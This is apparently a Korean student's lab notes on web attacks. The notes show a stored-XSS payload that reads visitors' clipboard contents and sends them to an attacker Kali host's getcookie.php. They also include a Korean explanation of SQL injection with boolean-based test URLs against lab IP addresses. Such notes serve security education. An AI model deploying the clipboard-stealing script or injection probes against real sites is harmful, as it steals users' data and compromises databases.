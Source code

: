 <br>

<br>

<br>

##### XSS  실제 적용 II

접속한 사용자의 클립보드(ctrl+c)를 전송 

xp -> 공격자 게시판 글을 작성

```
<img name="i" width="0" height="0"></img><script>i.src="http://칼리리눅스2016주소/getcookie.php?clipboard="+clipboardData.getData("text")</script>
```

![2022-10-26-75클립보드](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-75클립보드.jpg)

<br>

확인

![2022-10-26-76확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-76확인.jpg)

<br>

<br>

<br>

##### SQL Injection

njection

- 주입 공격
- 데이터 입력이 가능한 위치에 공격을 위한 입력 값을 주입하는 공격 • SQL Injection
- Database에 직접적으로 전달되는 입력 값에 SQL문이나 DataBase에서 실행 가능한 명령을 삽입하여 인증 우회, Database 정보 조회, 변조, 시스템 조작 등을 수행하는 공격
- 공격 대상 → Database Server (Database Hacking) • 공격 발생 원인
- Database에 전달되는 값을 적절한 검증 없이 이용하는 경우
- Database의 값을 이용하는 서버의 기능이 취약한 로직으로 구성된 경우 • 피해 범위
- WAS의 인증 우회, Database 정보유출/조작/파괴, System Command 실행, System의 주요 파일 노출

<br>

공격 방식

![2022-10-26-77공격방식](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-77공격방식.jpg)

<br>

###### injection vector

![2022-10-26-78인젝션백터](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-78인젝션백터.jpg)

```
http://172.16.0.110/board/board_view.php?num=21

http://172.16.10.20/board/board_view.php?num=21%20and%201=1
http://172.16.10.20/board/board_view.php?num=21 and 1=1
                 참(게시판글이 있나?)               참 

a AND b  :  a , b  모두 참일때 정상 실행



http://172.16.10.20/board/board_view.php?num=21%20and%201=1
                         참                            참 


```